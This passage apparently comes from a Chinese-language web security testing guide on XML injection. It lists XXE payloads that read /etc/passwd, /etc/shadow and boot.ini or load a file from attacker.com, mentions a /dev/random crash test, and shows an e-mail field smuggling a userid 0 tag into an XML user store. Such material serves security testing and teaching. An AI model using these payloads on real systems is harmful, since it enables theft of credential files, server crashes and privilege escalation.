 如果XML解析器尝试将实体替换为```/dev/random```文件的内容，则此测试可能会使Web服务器（在UNIX系统上）崩溃。

其他有用的测试如下：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```

#### 标记注入
完成第一步后，测试人员将获得有关XML文档结构的一些信息。然后，可以尝试注入XML数据和标签。我们将显示一个示例，说明如何导致特权升级攻击。

让我们考虑先前的应用程序。通过插入以下值：
```
Username: tony
Password: Un6R34kb!e
E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com
```

该应用程序将构建一个新节点并将其附加到XML数据库：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail>
        <userid>0</userid>
        <mail>s4tan@hell.com</mail>
    </user>
</users>
```
